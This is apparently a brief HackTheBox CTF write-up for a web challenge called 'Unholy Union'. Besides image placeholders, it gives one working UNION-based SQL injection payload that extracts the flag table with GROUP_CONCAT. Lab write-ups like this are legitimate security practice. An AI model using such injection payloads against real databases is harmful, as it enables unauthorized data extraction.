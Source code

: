 ```yaml
---
title: Unholy Union
tags:
  - CTF
  - HackTheBox
  - Web
---
```

![](Pasted%20image%2020241023152808.png)

It's a basic UNION SQLi
Payload: `a' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(flag) FROM flag) -- -`

![](Pasted%20image%2020241023153046.png)